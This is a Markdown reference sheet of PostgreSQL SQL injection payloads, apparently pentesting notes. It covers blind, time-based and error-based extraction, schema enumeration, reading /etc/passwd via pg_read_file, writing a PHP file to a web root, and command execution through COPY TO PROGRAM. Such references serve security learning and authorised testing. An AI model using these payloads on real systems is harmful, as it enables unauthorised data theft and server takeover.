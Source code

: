 # SQLi for [PostgreSQL](https://www.postgresql.org/)

## Things to remember
  *  HackTricks has [multiple](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection) [pages](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) for PostgreSQL
  *  [`ILIKE`](https://www.postgresql.org/docs/current/functions-matching.html)/[`LOWER()`](https://www.postgresql.org/docs/current/functions-string.html) to change/ensure case matching
  *  PostgreSQL usually supports stacked queries
  *  Boolean and time-based injections are versatile... get creative!

## Common errors
  *  `column "X" does not exist` caused by literal string values wrapped in double quotes, use single
  *  `argument of AND must be type boolean` caused by comparison operator being passed a non-bool type

## DBMS instance details
  *  DBMS version, current database/user, data directory, etc.
      *  Data directory used to [store PostgreSQL stuff](https://www.postgresql.org/docs/current/storage.html)

```
(SELECT version())
(SELECT current_database())
(SELECT current_user)
(SELECT setting from pg_settings WHERE name = 'data_directory')
```

## Boolean-based blind
  *  Infer DB contents from true/false responses
  *  A simple way to induce this type of response is to use `OR`/`AND` operators
      *  More complex ways could also exist depending on the application
  *  [`ASCII()`](https://www.postgresql.org/docs/current/functions-string.html#:~:text=ascii) and [`SUBSTRING()`](https://www.postgresql.org/docs/current/functions-string.html) to prepare characters for binary search comparison

```
(SELECT TRUE WHERE current_database() LIKE '%')
(SELECT TRUE WHERE ASCII(SUBSTRING(current_database(), 1, 1)) < 127)
```

## Time-based blind
  *  Infer DB contents by forcing the server to wait and measuring response times
  *  `AND`/`OR` may cause errors, subquery must return boolean values in some instances
      *  Concatenate operator `||` is useful in these instances
  *  [`PG_SLEEP()`](https://www.postgresql.org/docs/current/functions-datetime.html#FUNCTIONS-DATETIME-DELAY) is obvious for this, but more exist
      *  Ex: [`GENERATE_SERIES()`](https://www.postgresql.org/docs/current/functions-srf.html#FUNCTIONS-SRF) can be used to waste CPU cycles, creating a delay

```
(SELECT TRUE FROM PG_SLEEP(5) WHERE current_database() ILIKE '%')
(SELECT '' FROM PG_SLEEP(5) WHERE ASCII(SUBSTRING(current_database(), 1, 1)) < 127)
```

## Error-based
  *  Cause an error that contains the result of a subquery
      *  Useful if errors are rendered on the page
  *  `OR`/`AND` operators useful to include error-causing functions
  *  [PayloadsAllTheThings has a section](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-time-based) covering this
  *  [`CAST()`](https://github.com/sqlmapproject/sqlmap/blob/2f01cbf71fcd48bb20f9394ff6f088211305277e/data/xml/payloads/boolean_blind.xml#L525) function useful for intentionally causing errors
      *  The function example listed below is **NOT** used correctly... duh!

```
1=CAST(current_database() AS NUMERIC)
```

## Enumerate databases, tables, and columns
  *  List current database or all databases
      *  [`string_agg()`](https://www.postgresql.org/docs/current/functions-aggregate.html#:~:text=string_agg) used to return single-value from subquery
  *  List all tables or all tables within a given database
  *  List all columns within a given table
      *  Fuzz number of columns using `ORDER BY`/`UNION` operators

```
(SELECT current_database())
(SELECT string_agg(datname, ',') FROM pg_database)
(SELECT string_agg(table_name, ',') FROM information_schema.tables)
(SELECT string_agg(table_name, ',') FROM information_schema.tables WHERE table_catalog=current_database())
(SELECT string_agg(table_name, ',') FROM information_schema.tables WHERE table_catalog='exampleDB')
(SELECT string_agg(column_name, ',') FROM information_schema.columns WHERE table_name='exampleTable')
```

## System interaction
  *  Filesystem access, read/write files to/from the filesystem
      *  See [`pg_proc`](https://www.postgresql.org/docs/current/catalog-pg-proc.html) table to check for privs to file functions
      *  [`ARRAY_TO_STRING()`](https://www.postgresql.org/docs/current/functions-array.html#:~:text=array_to_string) and [`ARRAY_AGG()`](https://www.postgresql.org/docs/current/functions-aggregate.html#:~:text=array_agg) functions used to convert array to string
  *  Read files from filesystem using [`pg_read_file()`](https://www.postgresql.org/docs/current/functions-admin.html#FUNCTIONS-ADMIN-GENFILE)
      *  `Permission denied` can indicate file perms issues or `apparmor`
      *  [`encode()`](https://www.postgresql.org/docs/current/functions-binarystring.html#FUNCTION-ENCODE) used to easily render file contents on page as hex
  *  List directory contents with [`pg_ls_dir()`](https://www.postgresql.org/docs/current/functions-admin.html#:~:text=pg_ls_dir)
  *  Write files to filesystem using [`COPY`](https://www.postgresql.org/docs/current/sql-copy.html)
      *  Cannot write binary or newlines (one-liners required)
  *  `COPY` can also be leveraged for RCE
      *  Must be superuser or member of [`pg_execute_server_program`](https://www.postgresql.org/docs/current/predefined-roles.html#:~:text=pg_execute_server_program) group
      *  Single quotes are escaped with double-single quotes: `'` becomes `''`

```
(SELECT ARRAY_TO_STRING(ARRAY_AGG(proacl), ', ') FROM pg_proc WHERE proname='pg_read_file')
(SELECT encode(pg_read_file('/etc/passwd')::bytea, 'hex'))
COPY (SELECT '<?php phpinfo(); ?>') TO '/var/www/html/phpinfo.php'
COPY (SELECT '') TO PROGRAM 'ping -c 3 127.0.0.1'
```
